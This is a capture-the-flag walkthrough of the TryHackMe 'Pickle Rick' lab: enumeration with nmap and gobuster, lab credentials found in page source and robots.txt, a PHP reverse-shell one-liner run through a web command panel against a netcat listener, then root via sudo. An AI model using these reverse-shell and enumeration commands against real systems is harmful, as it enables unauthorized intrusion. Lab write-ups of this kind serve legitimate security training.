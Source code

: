 # CTF: [Pickle Rick](https://tryhackme.com/room/picklerick)
## Enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c9:26:a8:ca:c4:a1:1f:a6:a8:cf:ad:b5:0a:78:86:a1 (RSA)
|   256 7e:77:da:49:08:a3:a9:71:9a:c8:7d:0f:0d:c7:27:a6 (ECDSA)
|_  256 47:5a:74:c8:95:b5:e3:fc:99:83:26:11:ca:12:f5:43 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```
Navigate to the address on a browser. Inspect the source code. You should find a comment that gives us a hint.
```html
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
Now we have a username. I tried brute forcing the SSH server with Hydra, but to no avail. We could run a gobuster to find hidden directories.
## Hidden directories
```
└─# gobuster dir -u 10.10.66.136 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x txt,html,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.66.136
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
2021/08/27 00:12:17 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882] 
/assets               (Status: 301) [Size: 313] [--> http://10.10.66.136/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                   
/robots.txt           (Status: 200) [Size: 17] 
```
## /robots.txt
```html
Wubbalubbadubdub
```
This file contains the password for `R1ckRul3s`.
## /portal.php
This page contains a login portal. Enter the credentials (R1ckRul3s:Wubbalubbadubdub)
![pickrickportal](https://user-images.githubusercontent.com/59718043/131052626-b276adcc-e404-446d-99bc-5cc9363c39d3.png)
## Reverse shell
This admin page contains a command panel/webshell. We could use this to get a reverse shell.
<br/><br/>
Start a Netcat listener (on your machine).
```
nc -nvlp 4444
```
Execute this command on the webshell.
```
php -r '$sock=fsockopen("10.8.219.166",4444);exec("/bin/sh -i <&4 >&4 2>&4");'
```
Check your netcat listener, by now it should have opened a reverse connection to the server.
```
Listening on 0.0.0.0 4444
Connection received on 10.10.148.23 35928
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
The first ingredient is under `/var/www/html/Sup3rS3cretPickl3Ingred.txt`.
<br/><br/>
The second ingredient is under `/home/rick/'second ingredients'`.
## Spawn a TTY
```
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ip-10-10-148-23:/var/www/html$ 
```
## Privilege escalation
Run `sudo -l`. This user should be able to log in as root. Execute `sudo su` to log in as root.
```
www-data@ip-10-10-148-23:/var/www/html$ sudo su
sudo su
root@ip-10-10-148-23:/var/www/html# 
```
The third ingredient is under `/root/3rd.txt`.
